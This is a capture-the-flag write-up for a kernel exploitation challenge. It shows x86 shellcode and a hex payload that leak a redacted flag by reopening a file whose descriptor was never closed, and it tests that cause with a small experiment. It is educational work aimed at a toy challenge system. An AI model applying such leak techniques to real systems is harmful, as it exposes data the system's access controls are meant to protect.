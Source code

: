 # How a buggy program solves a 400 point challenge
**Writeup Author:** Kevin He (Username `trinary-exploitation`)  
**Category:** Kernel Exploitation
> ## Freaky_File_Descriptors (13 solves, 400 points)
> How does the OS know what bytes to give you when you call read? How does it keep track of how far you've read into a file?
> 
> Find an exploit that lets you read past the end of /sandb0x/freaky_fds.txt and see what was truncated!

To start, I ran `cat /sandb0x/freaky_fds.txt` to see if the file is suspicious, I got:
> \[Devlog\]: On second thought, keeping this info stored in plaintext is too dangerous. I'm going to redact the secure parts.  
> 
> User: sandb0x  
> Password: pwny
> 
> Super important flag for the Freaky File Descriptors challenge:

And nothing more was printed to the screen.

## The memory initialization myth

Since the challenge suggests that there is truncated data after the file, I initially thought it would be as easy as requesting more bytes to read than the file's length, so I wrote this piece of shellcode (this will be referred to as _Shellcode A_ later on):

**Shellcode A**
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov ebx, eax ; fd from OPEN
mov eax, 4 ; Syscall number for READ
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

Compiling this with `rasm2 -f <filename>` gives the following shellcode:
```
b802000000bbd6e00408cd8089c3b804000000b9eee00408baf4010000cd80b805000000bb00000000b9eee00408baf4010000cd80c32f73616e646230782f667265616b795f6664732e74787400
```

But using this shellcode, I got the same result obtained from `cat`, except for some padding spaces (which are actually uninitialized unprintable characters) at the end:

![Nothing is read past the end of the file](assets/freaky-fd-fail.png)

I thought that the reason it failed was because part of the buffer after the shellcode was not writable by the process so `READ` had ignored it for security reasons, so I tried again but this time initializing the content after label `buffer:` with underscores, which can be done simply by appending 500 `5f`'s (ASCII code for underscore) to the end of the shellcode (will be referred to as _Shellcode B_). To speed up this process (avoid manual typing), I used some PowerShell scripts which can be found in [`scripts/`](scripts/) in this repository.

After bombarding the screen with `5f`, I cannot believe my eyes:

![The flag with underscores after it](assets/freaky-fd.png)

## Why does this exploit work?

After the CTF is over, I wanted to figure out why this trick works. As I experimented with the `READ` syscall, I found that it refuses to read more characters than the file has by returning fewer characters than requested in the `buf_size` argument. So if that is the case, this exploit would not have worked. I was also very skeptical of whether memory initialization causes `READ` to dump the flag.

In addition, I forgot to close the file descriptor opened by `OPEN` syscall, so I wondered if by running the shellcode &mdash; and thus calling `OPEN` &mdash; multiple times will also contribute to getting the flag.

### A simple experiment

To test out which factor caused `READ` to reveal the flag, I designed a simple controlled experiment with 3 trials:  
- Trial A: Running _Shellcode A_ (the original shellcode _without_ `5f` padding) **twice** in binexec
    - This eliminates memory initialization as a confounding variable
- Trial B: Running _Shellcode B_ (the shellcode _with_ `5f` padding) **once** in binexec
    - This eliminates running `OPEN` multiple times as a confounding variable
- Trial C (Control): Running _Shellcode C_ (shown below) twice. Shellcode C is based on shellcode A but fixes the handle leak bug in shellcode A by calling `CLOSE(fd)` before it exits.

**Shellcode C**
<!-- cSpell:ignore sizebuf -->
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov edi, eax ; store fd into edi, which won't be clobbered in syscalls
mov eax, 4 ; Syscall number for READ
mov ebx, edi ; fd from OPEN
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
mov eax, 3 ; syscall number for CLOSE
mov ebx, edi ; stored fd from OPEN
int 0x80 ; CLOSE(fd)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

To eliminate the current system state as a variable, I rebooted the whole system (Ctrl-X) before running each trial.

### The results

Trial A (running _Shellcode A_ twice) yields the exact same result as if I ran _Shellcode A_ and then _Shellcode B_ as I did while the CTF is running. This concludes that calling `OPEN` twice alone is enough to make `READ` leak the flag, but does memory initialization alone also do the job?

Running trial B (running _Shellcode B_ once), which initialize memory with `5f`s, gives me no flag at all, with underscores in the redacted part. This shows that memory initialization plays no role at all and filling `5f`s as I did during the CTF is completely superfluous.

Trial C does not give me the flag, even though I ran _Shellcode C_ twice, this shows that properly closing a file before opening it again in the same process will not trigger the bug that causes the flag to be leaked.

## End Notes
There are 13 solves to this 400 point challenge (compared to only 5 solves in Kernel_Memory_Leak which is 300 points), which seems quite surprising. Even the contest managers imaged that people might be utilizing a bug that would qualify as a Small Oops. My explanation for this solve number is that most people, like me, wrote a buggy program that did not properly close a file descriptor and ran it again in the same `binexec` session after making unnecessary modifications (or no modifications at all). So future CTF makers have to be careful in designing problems that are difficult to solve not only by valid programs but also by buggy programs.
